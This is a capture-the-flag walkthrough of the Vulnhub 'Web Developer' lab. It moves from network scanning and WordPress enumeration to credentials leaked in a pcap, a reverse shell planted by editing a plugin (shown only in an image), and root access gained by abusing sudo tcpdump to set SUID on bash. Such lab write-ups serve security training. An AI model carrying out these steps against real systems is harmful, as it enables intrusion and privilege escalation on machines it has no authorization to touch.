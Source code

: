 # Information

- Name: Web Developer
- Date release: 5 Nov 2018
- Author: Fred Wemeijer
- Series: Web Developer
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/web-developer-1,288/
- Difficulty: Easy

# Write Up
## Enumeration

### Host Discovery
Host Dicovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.31_
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:bb:84:dd 10.0.2.3
[*] 08:00:27:cc:54:c9 10.0.2.31
```
### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). Tool reported 2 open ports.
```Shell
# portScanner.py -i 10.0.2.31
[..\.....] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 80 (http) open

```
OpenSSH is running on port 22 and Web is running on port 80.

### Web

Let's see used technologies on the web with _whatweb_:
```Console
# whatweb http://10.0.2.31
http://10.0.2.31 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.31], JQuery[1.12.4], MetaGenerator[WordPress 4.9.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Example site &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.9.8]
```
Its a Wordpress 4.9.8, so let's scan it with [wordpressScanner](http://) to search themes, plugins and verify version.

```Console
sudo python WordPressScanner.py -u http://10.0.2.31 -p -t


#######################
#  Wordpress Scanner  #
#######################



############################################
#  Fuzzing with Wordlists/url_fuzzing.txt  #
############################################

[O] Fuzzing: http://10.0.2.31/wp-admin/css/wp-admin-rtl.min.css
[*] license.txt 200
[*] readme.html 200
[*] wp-includes/images/smilies/icon_smile.gif 200
...
...
...
...
[*] wp-trackback.php 200
[*] xmlrpc.php 405


#############
#  Version  #
#############

[*] Meta Name: ['WordPress 4.9.8']
[*] ?ver=: ['4.9.8', '1.0', '3.7.3', '1.12.4', '1.4.1', '1.0', '1.0', '2.1.2', '4.9.8']


################################################
#  Fuzzing with Wordlists/wp-plugins.fuzz.txt  #
################################################

[+] Fuzzing: Fuzzing finished
[*] wp-content/plugins/akismet/ 200
[*] wp-content/plugins/hello.php 500
[*] wp-content/plugins/hello.php/ 500


###############################################
#  Fuzzing with Wordlists/wp-themes.fuzz.txt  #
###############################################

[+] Fuzzing: Fuzzing finished
```

Now let's apply fuzzing with other wordlist to search more hidden directories.

```Console
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.0.2.31/ -t 100                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.31/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 13:02:53 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/ipdata               (Status: 301) [Size: 307] [--> http://10.0.2.31/ipdata/]
/server-status        (Status: 403) [Size: 274]                               
/index.php            (Status: 301) [Size: 0] [--> http://10.0.2.31/]         
/wp-includes          (Status: 301) [Size: 312] [--> http://10.0.2.31/wp-includes/]
/wp-content           (Status: 301) [Size: 311] [--> http://10.0.2.31/wp-content/] 
/wp-admin             (Status: 301) [Size: 309] [--> http://10.0.2.31/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                     
                                                                                   
===============================================================
2022/09/11 13:02:55 Finished
===============================================================

```

_Ipdata_ looks weird. A pcap file is in the directory.

![ipdata](images/ipdata.png)

### Wireshark

Let's analyze with wireshark:
![Wireshark](images/wireshark.png)

There is a credential in _tcp.stream eq 8_. The password is url encoded. Now we can access to wp-admin with webdeveloper:Te5eQg&4sBS!Yr$)wf%(DcAd

![Wp Panel](images/wppanel.png)

## Exploitation
Now, let's overwrite, for example, the hello.php to get a reverse shell.
![Hello Plugin](images/hello_plugin.png)

To get the shell, access _/wp-content/plugins/hello.php_.

## Privilege Escalation
In _/var/www/html/wp-config.php_ we have credentials for webdeveloper user (mysql).
```Console
www-data@webdeveloper:/$ cat /var/www/html/wp-config.php 
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```
Let's access with webdeveloper:MasterOfTheUniverse and see what can he execute as root.
```Console
www-data@webdeveloper:/$ su webdeveloper
Password: 
webdeveloper@webdeveloper:/$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```

We can escalate privileges with _tcpdump_, let's assign suid perm to bas:

```Console
webdeveloper@webdeveloper:/$ COMMAND='chmod 4755 /bin/bash'
webdeveloper@webdeveloper:/$ TF=$(mktemp)
webdeveloper@webdeveloper:/$ echo "$COMMAND" > $TF
webdeveloper@webdeveloper:/$ chmod +x $TF
webdeveloper@webdeveloper:/$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z $TF -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
5 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
webdeveloper@webdeveloper:/$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
bash-4.4# cat /root/flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290

```


